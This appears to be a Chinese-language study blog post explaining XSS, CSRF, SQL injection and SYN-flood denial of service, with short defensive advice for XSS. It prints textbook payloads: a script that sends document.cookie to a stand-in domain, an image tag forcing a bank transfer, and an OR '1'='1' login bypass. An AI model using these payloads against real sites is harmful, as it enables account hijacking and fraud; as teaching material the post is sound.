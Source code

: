 ```yaml
---
layout: post
category: ComputerNetwork
title: 网络攻击技术
tags: ComputerNetwork
---
```


## 网络攻击技术

## XSS跨站脚本技术

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。



**危害**

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片



**防范**

1. 设置 Cookie 为 HttpOnly

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

2. 过滤特殊字符

例如将 `<` 转义为 `<`，将 `>` 转义为 `>`，从而避免 HTML 和 Jascript 代码的运行。

富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。

富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。

## CSRF跨站请求伪造

跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。

XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。

假如一家银行用以执行转账操作的 URL 地址如下：

```text
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
```

那么，一个恶意攻击者可以在另一个网站上放置如下代码：

```text
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">。
```

如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失 1000 美元。

## SQL 注入攻击

### 概念

服务器上的数据库运行非法的 SQL 语句，主要通过拼接来完成。

### 攻击原理

例如一个网站登录验证的 SQL 查询代码为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果填入以下内容：

```sql
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
```

那么 SQL 查询字符串为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

此时无需验证通过就能执行以下查询：

```sql
strSQL = "SELECT * FROM users;"
```

## DoS拒绝服务攻击

拒绝服务攻击（denial-of-service attack，DoS），亦称洪水攻击，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。

分布式拒绝服务攻击（distributed denial-of-service attack，DDoS），指攻击者使用两个或以上被攻陷的电脑作为“僵尸”向特定的目标发动“拒绝服务”式攻击。

### SYN 泛洪攻击

比如SYN Dos攻击就是DoS攻击的一种，

在 SYN 泛洪攻击中，恶意客户端发送大量 SYN 数据包（通常在握手的第一部分），但永远不会发送确认以完成握手。这使得服务器一直等待对于这些半开放的 TCP 连接的响应，而这些连接最终会耗尽容量，造成服务器无法接受跟踪连接状态的新连接。

SYN 泛洪攻击就好像一所大型高中里，整个毕业班的一场可怕恶作剧 - 所有学生在同一时间段内打电话给同一家披萨店，每个人都要订个披萨。在送餐员备货时，她会发现收到了太多的披萨订单，外卖车根本装不下，而且订单上也没有地址，所以所有送餐都会停止。

## 参考

- [攻击技术](http://www.cyc2018.xyz/%E5%85%B6%E5%AE%83/%E7%B3%BB%E7%BB%9F%E8%AE%BE%E8%AE%A1/%E6%94%BB%E5%87%BB%E6%8A%80%E6%9C%AF.html#%E4%B8%80%E3%80%81%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB)
- [什么是 DDoS 攻击？](https://www.akamai.com/zh/our-thinking/ddos)

